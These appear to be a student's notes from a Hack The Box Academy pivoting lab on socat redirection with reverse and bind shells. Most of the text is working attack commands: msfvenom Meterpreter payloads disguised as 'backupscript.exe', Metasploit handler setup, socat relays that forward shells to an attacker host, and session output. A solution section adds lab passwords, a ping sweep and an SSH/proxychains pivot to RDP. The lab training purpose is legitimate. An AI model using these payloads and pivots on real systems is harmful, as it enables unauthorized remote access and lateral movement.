

### Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat)

```
# Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels 
# without needing to use SSH tunneling. 
# It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

# We can start Metasploit's listener using the same command mentioned in the last section on our attack host, 
# and we can start socat on the Ubuntu server.
```

```
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80     # Starting Socat Listener (Web/pivot host)
```

```
# Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (10.10.14.18). 
# Once our redirector is configured, we can create a payload that will connect back to our redirector, 
# which is running on our Ubuntu server. 

# We will also start a listener on our attack host because as soon as socat receives a connection from a target, 
# it will redirect all the traffic to our attack host's listener, where we would be getting a shell.
```

```
# Creating the Windows Payload (PenTest host)

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

# Keep in mind that we must transfer this payload to the Windows host. 
# We can use some of the same techniques used in previous sections to do so.


sudo msfconsole                                                            # Starting MSF Console (PenTest host)

msf6 > use exploit/multi/handler                                           # Configuring & Starting the multi/handler
[*] Using configured payload generic/shell_reverse_tcp 

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https

msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0

msf6 exploit(multi/handler) > set lport 80
lport => 80

msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://0.0.0.0:80


# We can test this by running our payload on the windows host again, 
# and we should see a network connection from the Ubuntu server this time.
```

```
# Establishing the Meterpreter Session

[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

```
# Task solution (optional, play around)

10.129.209.166   ubuntu     HTB_@cademy_stdnt!
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.92:80

for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done 

tail -4 /etc/proxychains.conf         # Double check configs on PenTest host
ssh -D 9050 ubuntu@10.129.209.166     # Create pivot host (you'll login inside)

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Socat Redirection with a Bind Shell

```
# Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. 
# This is different from reverse shells that connect back from the Windows server to the Ubuntu server 
# and get redirected to our attack host. 

# In the case of bind shells, the Windows server will start a listener and bind to a particular port. 
# We can create a bind shell payload for Windows and execute it on the Windows host. 

# At the same time, we can create a socat redirector on the Ubuntu server, 
# which will listen for incoming connections from a Metasploit bind handler 
# and forward that to a bind shell payload on a Windows target. 
# The below figure should explain the pivot in a much better way.
```




```
# We can create a bind shell using msfvenom with the below command.

msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

# We can start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443. (Web host)

socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443

# Finally, we can start a Metasploit bind handler. 
# This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run
[*] Started bind TCP handler against 10.129.202.64:8080
```

```
# We can see a bind handler connected to a stage request pivoted via 
# a socat listener upon executing the payload on a Windows target.

[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
---------------------------------------------------